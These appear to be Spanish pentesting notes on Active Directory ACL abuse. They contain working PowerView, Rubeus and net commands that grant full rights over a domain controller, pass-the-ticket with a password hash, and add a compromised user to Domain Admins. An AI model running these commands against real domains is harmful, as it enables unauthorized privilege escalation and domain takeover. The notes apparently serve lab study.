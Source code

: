 ## Escribir DACL sobre el PC

```powershell
# Compartir credenciales en Powershell 
❯ Import-Module .\PowerView-3.0.ps1

❯ $SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force  # Creamos un objeto 

❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.corp\writedacldc.user', $SecPassword) # Creamos un objeto de tipo credencial 

❯ Get-DomainComputer -Identity <NameServer o cn> | select distinguishedname  # El resultado lo colocamos en el comando de abajo despues de 'TargetIdentity'

❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'CN=FIRST-DC,OU=Domain Controllers,DC=domain1,DC=corp' -PrincipalIdentity user.hacked -Rights All -Verbose    

	# PrincipalIdentity = Cualquier objeto en AD donde se puedan adjuntar permisos (Usuarios, Grupos, PC)
	# Rights = 'All' significa que le de todos los permisos 
```

```bash 
Con los permisos 'All' otorgados al usuario 'user.hacked' en un objeto específico del Controlador de Dominio en Active Directory, el usuario podría realizar una amplia gama de acciones, incluyendo:

1. Modificar Configuraciones del Controlador de Dominio: Cambiar configuraciones críticas del Controlador de Dominio.
2. Modificar Políticas de Grupo: Cambiar políticas que afectan a todos los usuarios y computadoras del dominio.
3. Acceder a Datos Sensibles: Leer información sensible almacenada en el Controlador de Dominio.
4. Crear o Eliminar Cuentas de Usuario: Potencialmente crear cuentas de administrador o eliminar cuentas existentes.
5. Cambiar Permisos y Derechos de Otros Usuarios: Modificar los derechos de acceso de otros usuarios en el dominio.
```

## GenericAll sobre Grupo

```powershell
❯ import-module .\Microsoft.ActiveDirectory.Management.dll
❯ Get-ADGroup "Domain Admins" -Properties * | select -ExpandProperty ntSecurityDescriptor | Format-List  # Enumeramos los grupos de AD, sus propiedades 
❯ ./Rubeus.exe hash /password:Password@1    # Calcula el 'rc4_hmac'
❯ ./Rubeus.exe asktgt /user:groupwrite.user /password:Password@1 /ptt   # Solicitamos el TGT con la password
❯ ./Rubeus.exe asktgt /user:groupwrite.user /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ptt # Solicitamos el TGT con el 'Hash', el cual lo genera en base64 haciendo un Pass-The-Ticket
	# ptt = Pass-The-Ticket

❯ klist         # Mirar todos los tickets que se encuentran para los diferentes servicios 
❯ klist purge   # Eliminar los tickets que estan en cache

❯ net group "domain admins" /domain     # Ver los usuarios del 'domain admin'
❯ net group "domain admins" user.hacked /add /domain  # Agregamos el usuario comprometido al 'domain admin'
❯ net group "domain admins" /domain     # Verificar que el nuevo usuario de ha añadido 
```
